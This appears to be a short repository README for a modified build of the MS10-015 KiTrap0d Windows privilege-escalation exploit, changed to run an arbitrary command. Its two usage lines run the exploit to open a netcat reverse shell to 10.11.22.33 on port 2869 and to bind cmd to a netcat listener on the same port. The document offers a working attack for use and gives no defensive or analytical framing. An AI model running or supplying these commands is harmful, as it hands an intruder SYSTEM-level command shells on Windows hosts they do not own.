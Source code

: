 # MS10-015_kitrap0d
MS10-015 KiTrap0d (exploitdb-id:11199) modified binary that start any command instead of forking a command prompt. This can be used to start netcat as either tcp reverse shell or listener.

** Reverse shell
vdmallowed nc 10.11.22.33 2869 -e cmd

** Listener
vdmallowed nc -nvlp 2869 -e cmd

